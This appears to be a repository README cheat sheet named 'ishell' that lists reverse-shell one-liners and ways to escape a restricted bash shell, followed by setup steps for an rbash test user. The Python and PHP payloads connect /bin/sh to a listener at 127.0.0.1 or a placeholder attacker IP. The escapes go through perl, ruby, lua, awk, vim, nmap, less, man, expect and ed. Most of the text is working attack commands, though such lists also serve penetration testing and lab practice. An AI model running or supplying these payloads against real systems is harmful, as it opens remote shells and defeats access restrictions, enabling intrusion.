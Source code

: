 # ishell

> interactive shell

## reverse shell

    # listen
    nc -lvp 13666

    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1", 13666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

    php -r '$sock=fsockopen("127.0.0.1", 13666);exec("/bin/sh -i <&3 >&3 2>&3");'

## direct shell

    ssh ruser@127.0.0.1 -t "bash --noprofile"
    cd /etc

    python -c "import os; os.system('/bin/sh')"
    python -c "import pty; pty.spawn('/bin/bash')"

    echo "import pty; pty.spawn('/bin/bash')" > /tmp/asdf.py
    python /tmp/asdf.py

    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attacker-ip>",6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

    # php
    $output = shell_exec('python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("Attacker IP Address",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);\'');
    echo $output;

    /bin/sh -i

    perl -e 'exec "/bin/sh";'

    ruby -e 'exec "/bin/sh"'

    lua -e 'os.execute("/bin/sh")'

    awk 'begin {system("/bin/sh")}'
    cd /etc; pwd

    :!bash
    :set shell=/bin/bash:shell

    :set shell=/bin/bash
    :shell
    cd /etc

    # within nmap
    !sh

    more long-file.txt
    !sh

    less file.txt
    !sh

    man man
    !sh

    expect
    spawn sh
    cd /etc

    ed
    !'/bin/sh'
    cd /etc
    exit
    q

## rbash setup

> restricted bash

    # enabling for a user
    cd /bin
    ln -s bash rbash
    useradd -m ruser
    usermod --shell /bin/rbash ruser
    grep -rni ruser /etc/passwd

    # start directly
    bash -r
    cd /etc/
    -rbash: cd: restricted
